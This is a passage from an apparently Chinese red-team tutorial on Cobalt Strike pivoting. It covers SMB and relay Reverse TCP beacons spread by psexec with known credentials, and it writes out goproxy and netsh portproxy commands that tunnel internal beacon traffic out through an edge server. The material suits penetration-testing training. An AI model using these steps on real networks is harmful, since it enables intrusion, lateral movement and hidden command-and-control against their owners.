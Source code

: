 运行成功后外部可以看到∞∞这个字符，这就是派生的SMB Beacon。

当前是连接状态，你可以Beacon上用link &lt;ip&gt;命令链接它或者unlink &lt;ip&gt;命令断开它。

![image-20220422000410651.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-3750906357942624c44c59454ddb53d7401dd366.png)

![image-20220422000458483.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-1853aba6a5df8e8d66b9d22d7b02975b7b189a62.png)

这种Beacon在内网横向渗透中运用的很多。在内网环境中可以使用ipc $生成的SMB Beacon上传到目标主机执行，但是目标主机并不会直接上线的，需要我们自己用链接命令(link &lt;ip&gt;)去连接它。

### 上线方法二：中转listener(Reverse TCP Beacon)

其实和方法一是类似的

![image-20220422000759017.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-27ae593015214b850f2dbbf8c4507c23c5a9f13e.png)

以下内容会自动配置

![image-20220422000840172.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-f687e3df1a78a8059ab08b5a1bb7245012285ae0.png)

然后和上面方法一一样，发现内网主机且知道账号密码,psexec横向传递，选择中转listener

![image-20220422001158730.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-e8016d4d1905f53aa758d9fb06c37121465b3d50.png)

![image-20220422001452245.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-b4431393de573e309f09a1d8b2dbc21429b6567f.png)

![image-20220422000337348.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-8aad5b074d56598abe67cd9d454a8a0af59222e6.png)

上线方法三：HTTP 代理
-------------

> 中转机器不需要上线即可

使用goproxy项目做代理，项目地址：

```php
https://github.com/snail007/goproxy
```

**过程：**

1.上传proxy.exe到web服务器(边缘主机)，在8080端口开启http代理

```php
C:\proxy.exe http -t tcp -p "0.0.0.0:8080" --daemon
```

2.用netsh命令将访问内网ip 192.168.111.131的822端口(必须为未使用的端口，否则会失败)的流量重定向到外网ip 192.168.1.88的8080端口

```php
netsh interface portproxy add v4tov4 listenaddress=192.168.111.131 listenport=822 connectaddress=192.168.1.88 connectport=8080
```

![image-20220516145111513.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-6bb51573d25019663d43299b908d1b604085742c.png)
